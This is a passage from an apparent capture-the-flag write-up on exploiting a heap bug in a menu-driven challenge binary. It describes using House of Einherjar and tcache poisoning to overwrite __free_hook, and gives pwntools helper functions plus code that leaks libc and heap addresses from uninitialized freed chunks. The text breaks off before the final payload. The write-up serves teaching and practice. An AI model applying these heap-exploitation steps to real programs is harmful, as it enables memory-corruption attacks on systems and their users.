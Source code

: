 ### Exploitation

The exploitation of this vulnerability involves employing the [House of Einherjar](https://github.com/shellphish/how2heap/blob/master/glibc_2.27/house_of_einherjar.c) to overlap two chunks, coupled with the [tcahe poisoning](https://github.com/shellphish/how2heap/blob/master/glibc_2.27/tcache_poisoning.c) technique to overwrite the `__free_hook`.

Below, I have listed some utility functions that facilitate interaction with the binary:

```python

def alloc(size, str):
    r.sendlineafter(">", "1")
    r.sendafter("size?", f"{size}")
    r.sendlineafter("str?", str)
    r.recvuntil("at ")
    return int(r.recvline(keepends=False)[:-1])

def tok(idx, delim):
    r.sendlineafter(">", "2")
    r.sendlineafter("idx?", f"{idx}")
    r.sendlineafter("delim?", delim)

def free(idx):
    r.sendlineafter(">", "3")
    r.sendafter("idx?", f"{idx}")

```

Initially, we require some leaks, which can be obtained by printing the content of the freed chunks. This is possible because when memory is allocated, it is not cleared, and the `do_str` function does not enforce writing bytes.

```python
a = alloc(4096, "")

b = alloc(0xf8, "")
c = alloc(0x128, b"C" * 0x128)
d = alloc(0xf8, "D" * 0xf8)

free(a)

a = alloc(4096, "")

tok(a, b'\x00')
r.recvline(keepends=False)
leak = r.recvline(keepends=False)

libc.address = (u64(leak.ljust(8, b"\x00")) << 8 )- 0x3ebc00

log.info(f"libc @{libc.address:x}")

free(d)
free(b)

b = alloc(0xf8, b"")

tok(b, b"\x00")

r.recvline(keepends=False)
leak = r.recvline(keepends=False)

heap = u64(leak.ljust(8, b"\x00")) << 8

log.info(f"heap @{heap:x}")

```